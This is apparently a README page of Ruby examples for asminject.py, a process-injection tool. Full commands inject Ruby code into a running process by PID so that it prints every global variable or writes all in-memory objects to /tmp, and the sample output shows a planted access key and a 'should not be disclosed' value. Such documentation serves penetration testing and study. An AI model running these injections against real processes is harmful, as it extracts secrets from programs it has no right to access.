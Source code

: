 # asminject.py examples - Ruby
* [Write all global variables to standard out](#write-all-global-variables-to-standard-out)
* [Write a text representation of all objects in memory to disk](#write-a-text-representation-of-all-objects-in-memory-to-disk)

## Write all global variables to standard out

Use [the following Ruby code, which was borrowed from this Gist by Dmitry Yakimenko](https://gist.github.com/detunized/1620634)

```
global_variables.sort.each do |name|; puts "#{name}: #{eval "#{name}.inspect"}
```

e.g.

```
# python3 ./asminject.py 84955 execute_ruby_code.s --arch x86-64 --relative-offsets relative_offsets-libruby-2.7.4.txt  --stop-method "slow" --var rubycode "global_variables.sort.each do |name|; puts \\\"#{name}: #{eval \\\"#{name}.inspect\\\"}\\\"; 
end
```

Example output:

```
2022-06-07T13:50:06-07:00 - Loop count 10
2022-06-07T13:50:11-07:00 - Loop count 11
$!: nil
...omitted for brevity...
$$: 84955
...omitted for brevity...
$0: "practice/ruby_loop.rb"
...omitted for brevity...
$example_global_var_1: "AKIASADF9370235SUAS0"
$example_global_var_2: "This value should not be disclosed"

```

## Write a text representation of all objects in memory to disk

Use the following Ruby code:

```
$obj_dump_counter = 0; ObjectSpace.each_object{|e| File.open("/tmp/rubydump-#{$obj_dump_counter}.dat", "wb") { |file| file.write(e); $obj_dump_counter += 1; }}
```

e.g.

```
python3 ./asminject.py 163017 execute_ruby_code.s --arch x86-64 --relative-offsets relative_offsets-libruby-2.7.4.txt  --stop-method "slow" --var rubycode '$obj_dump_counter = 0; ObjectSpace.each_object{|e| File.open(\"/tmp/rubydump-#{$obj_dump_counter}.dat\", \"wb\") { |file| file.write(e); $obj_dump_counter += 1; }}' --debug
```